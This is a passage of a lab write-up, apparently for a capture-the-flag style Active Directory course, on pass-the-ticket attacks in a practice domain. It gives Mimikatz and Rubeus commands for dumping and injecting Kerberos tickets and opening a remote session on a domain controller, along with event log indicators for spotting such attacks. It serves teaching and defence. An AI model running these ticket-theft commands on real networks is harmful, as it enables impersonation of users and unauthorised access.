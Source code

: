 ### Key Lab Insights

#### Ticket Identification Patterns
```bash
# Computer account tickets (ignore for user count)
*MS01$@krbtgt-INLANEFREIGHT.HTB.kirbi

# User TGT tickets (count these)
*julio@krbtgt-INLANEFREIGHT.HTB.kirbi
*john@krbtgt-INLANEFREIGHT.HTB.kirbi  
*david@krbtgt-INLANEFREIGHT.HTB.kirbi
```

#### Critical Command Sequence
```cmd
1. Export: mimikatz "privilege::debug" "sekurlsa::tickets /export" exit
2. Import: kerberos::ptt "[ticket-path]"
3. Test: dir \\DC01.inlanefreight.htb\[username]
4. Remote: Enter-PSSession -ComputerName DC01
```

#### Success Indicators
- **Exercise 1**: Count = 3 (julio, john, david)
- **Exercise 2**: Successful SMB share access to john folder
- **Exercise 3**: Remote PowerShell session established as john

### Optional: Tool Comparison
**Objective**: Perform attacks using both Mimikatz and Rubeus independently

**Mimikatz-Only Approach:**
```cmd
# Export tickets
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"

# Import and test
mimikatz.exe "privilege::debug" "kerberos::ptt ticket.kirbi" "exit"
```

**Rubeus-Only Approach:**
```cmd
# Dump tickets
Rubeus.exe dump /nowrap

# Import and test  
Rubeus.exe ptt /ticket:base64_ticket_data
```

---

## 🛡️ Detection and Defense

### Detection Indicators
```bash
# Event Log Monitoring
# Event ID 4768 - TGT Request
# Event ID 4769 - TGS Request  
# Event ID 4624 - Logon with unusual characteristics

# Unusual ticket requests:
- RC4 encryption in AES-enabled domain
- Tickets requested outside normal hours
- Multiple TGT requests for same user
- Cross-domain ticket requests
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> cat C:\john\john.txt